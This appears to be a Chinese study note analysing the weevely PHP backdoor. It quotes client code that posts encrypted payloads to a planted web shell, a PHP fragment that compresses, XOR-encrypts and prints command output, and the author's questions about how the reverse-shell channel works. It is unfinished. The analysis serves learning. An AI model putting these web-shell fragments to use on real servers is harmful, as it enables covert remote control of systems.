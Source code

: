 ```php
            '[R] %s...' %
            (wrapped_payload[0:32])
        )

        url = (
            self.url if not config.add_random_param_nocache
            else utils.http.add_random_url_param(self.url)
        )

        try:
        	# 通过post传输payload
            response = opener.open(url, data = wrapped_payload).read()
        except http.client.BadStatusLine as e:
            # TODO: add this check to the other channels
            log.warn('Connection closed unexpectedly, aborting command.')
            return

        if not response:
            return

        # Multiple debug string may have been printed, using findall
        matched_debug = self.re_debug.findall(response)
        if matched_debug:
            dlog.debug('\n'.join(matched_debug))

        matched = self.re_response.search(response)
    	# 对或取的信息进行逆向解密
        if matched and matched.group(1):

            response = zlib.decompress(
                utils.strings.sxor(
                    base64.b64decode(matched.group(1)),
                    self.shared_key))

            return response
```

所以是通过tcp+post进行反向shell代码的传输，在服务器上的病毒文件通过`@file_get_contents**(**"php://input"**)**`得到post中的层层加密过的代码后解密、执行，建立连接。

```php
	$o=@ob_get_contents();//获取当前缓冲区的内容，并返回缓冲区的数据
	@ob_end_clean();//停止输出缓冲并清空缓冲区的内容，同时关闭输出缓冲区
	$r=@base64_encode(@x(@gzcompress($o),$k));
	print("$p$kh$r$kf");}
```

*这几行代码按理说应该是打印输出执行命令行后的响应内容的，但还是不理解是怎么运作的。*

*或者说，当建立连接之后，eval这个函数转向执行其他的命令行了吗？*

探寻源码的途中，意识到：

- 本质就是对反向shell的原理的浅理解——只停留在如何使用现成的，现成也就算了，还是绝对会被目前的安全系统检测到然后灭了的。
- 后果就是：weevely的php后门代码只是加了免杀，然后以为见到new thang了。

[反向shell原理](https://xz.aliyun.com/t/2549?time__1311=n4+xnieDqxgDcDUrxBLb+o0QKDtSIqDODjrD&alichlgref=https://www.google.com/)

当连接建立成功之后，那么，所有的交互就是通过建立的连接进行的，bash或者telnet……

上面让人疑惑的四行代码应该是加密压缩对来自其他主机的命令的响应的内容

既然建立了交互，那么输出都会被转发到攻击者的机器上，print语句的输出会出现在攻击者机器上，那么$r经过这么多道工序，输出的为什么是人类可读的？

TBC